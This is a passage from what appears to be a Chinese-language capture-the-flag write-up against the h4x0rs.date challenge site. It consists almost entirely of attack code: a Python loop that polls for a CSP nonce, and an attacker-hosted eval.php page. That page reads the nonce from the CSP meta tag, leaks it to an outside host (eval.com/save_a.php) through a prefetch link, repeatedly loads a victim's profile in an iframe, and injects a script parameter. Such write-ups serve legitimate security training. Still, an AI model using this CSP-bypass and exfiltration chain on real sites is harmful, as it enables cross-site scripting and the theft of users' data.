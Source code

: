```python
# 获取nonce，并修改内容。
while(1):
	nonce=getNonce()
	if(nonce !=''):
		changeNonce(nonce)
	time.sleep(0.5)

```



**eval.php**

```php+HTML
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>eval</title>
	<script src="https://h4x0rs.date/assets/jquery-3.3.1.min.js"></script>
	<script>
         // 加载user2的资料页
		function aa(){
			var iframe = document.createElement('iframe'); 
			iframe.src="https://h4x0rs.date/profile.php?id=1d70f9cca4ab0d188c0cc9524b0d92705607d9b0d2e3923841e8b194ac7601cc";  
			document.body.appendChild(iframe);
		}
        
         
		$(document).ready( function () {
		  //获取nonce
           var m = $("meta[http-equiv=Content-Security-Policy]");
		  var nonce=m.attr("content");

		  // 通过savea.php将nonce保存为a.txt
           var url="https://eval.com/save_a.php?a=";
		  var n0t = document.createElement("link");
		  n0t.setAttribute("rel", "prefetch");
		  n0t.setAttribute("href", url+nonce);
		  document.head.appendChild(n0t);
           
           //每3秒重新加载一次user2的资料
		  setInterval("aa()", 3000 )
		});
	</script>
    
    
	<script type="text/javascript" src="https://h4x0rs.date/assets/csp.js?id=<?php echo file_get_contents('b.txt');?>&page=profile.php"></script>

</head>
<body>
</body>
</html>

```
